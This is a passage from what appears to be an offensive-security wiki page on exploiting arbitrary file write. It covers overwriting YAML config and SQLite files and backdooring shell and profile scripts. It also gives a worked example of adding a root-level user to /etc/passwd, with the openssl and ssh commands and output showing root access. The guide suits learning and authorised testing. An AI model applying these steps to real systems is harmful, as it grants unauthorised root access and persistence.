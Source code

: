 Some formats like [yaml.md](../../languages/yaml.md "mention") may even be so complex that they allow arbitrary instantiation of classes, resulting in Insecure Deserialization. Keep this in mind when evaluating overwriting such a config file, that you don't necessarily need to exploit an option if you can exploit the format itself.

### Database/storage files

Some databases like [SQLite](https://www.sqlite.org/) store all their data in local files. While this makes it simple, it also allows you to overwrite these files with any data of your choice. Suddenly, you control every bit of data, expanding the attack surface greatly as developers might not expect some generated data to be user-controlled.&#x20;

One common example is through [#deserialization](arbitrary-file-write.md#deserialization "mention") exploits like session data. Other applications might also store custom bits of data that are included in shell commands. After locally creating the same database structure with your injected data, write the file to the location. Often a reload is not required as databases change all the time, so it should instantly have an effect.

### root `/etc/passwd`

The root user may edit `/etc/passwd` to add another root-level user with your own password. Then you can log in as that user and get root privileges:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ openssl passwd 'hacker'  # Generate password
</strong>aQeFa8LxllpT.
</code></pre>

Then if you somehow append the following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

<pre class="language-shell"><code class="lang-shell">root:x:0:0:root:/root:/bin/bash
...
<strong>hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
</strong></code></pre>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ssh hacker@$IP
</strong>Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

## Shell Scripts

Shell scripts inherently execute shell commands, often being the end goal of exploiting an arbitrary file write vulnerability. Therefore, they should be large targets and are often easy to exploit.&#x20;

Some scripts execute on a schedule to automatically exploit, others are triggered by some action on the application or server, and you could even backdoor profile scripts that run when an admin interactively logs in.&#x20;

### Cron Jobs
